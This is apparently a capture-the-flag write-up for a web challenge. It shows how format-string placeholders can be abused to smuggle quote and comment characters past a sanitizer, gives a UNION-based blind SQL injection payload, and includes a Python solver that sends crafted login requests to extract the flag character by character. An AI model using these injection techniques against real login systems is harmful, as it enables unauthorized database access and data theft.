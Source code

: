 If the key for the placeholder is `username` or `password`, the placeholder maps to `str`, so there isn't any interesting member that we can access.

Remember that if the key for the placeholder is something else, it will be a `DirtyString` instance with an empty value, rather than `str`. This means we can access `DirtyString.MALICIOUS_CHARS`!

For example, if I set the username to `{X}{X.MALICIOUS_CHARS[1]}`, it will be replaced with `'`. This enables us to insert any character in `MALICIOUS_CHARS` and perform SQL injection.

If the query (after being processed with query builder) looks like

```sql
SELECT * FROM users WHERE username = 'a' AND password = '' UNION SELECT flag, flag, flag FROM flags WHERE flag LIKE BINARY 'uoft%'#'
```

if the beginning of the flag matches `uoft`, then the login will be successful, and the `UNDER CONSTRUCTION` page will be shown. Otherwise, the page will redirect to the `login` page. We can use this as an oracle to perform blind SQL injection attacks.

We cannot use `{` and `}` because they will be recognized as part of a placeholder, and they are not included in `MALICIOUS_CHARS`. (This issue will be solved in Flag 2.) Since we know the format of the flag is in the format `uoftctf{fake_flag}`, we cannot perform a normal blind SQL injection method that uses `LIKE` to match from the start of the flag.

Instead, I got the flag in the following way:
1. Get all the characters in the flag using `LIKE BINARY '%x%'`.
2. Choose one character that is not in `uoftctf`. We can ensure that the character is located inside the brackets.
3. Blind search all the characters that follows the flag.
4. Blind search all the characters that precede the flag.
5. We know the result is the string inside the flag. Wrap it with `uoftctf{}`.

### Final exploit


```python:solver.py
import requests
import string


# URL = "https://prepared-1-ec0d3306c2ec8a0f.chal.uoftctf.org/"
URL = "http://localhost:5000/"

s = requests.session()
MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]

def check(s, _part):
    part = _part.replace("_", "\\_")
    inj = f"{{X}}' UNION SELECT flag, flag, flag FROM flags WHERE flag LIKE BINARY '%{part}%'#"

    for i, c in enumerate(MALICIOUS_CHARS):
        inj = inj.replace(c, "{X.MALICIOUS_CHARS[%d]}" % i)
    data = {
        "username": "a",
        "password": inj
    }
    r = s.post(URL, data=data)
    return "UNDER" in r.text
        

chars = string.ascii_letters + string.digits + "_"
used = ""

for char in chars:
    if check(s, char):
        used += char
        print(f"{used=}")
```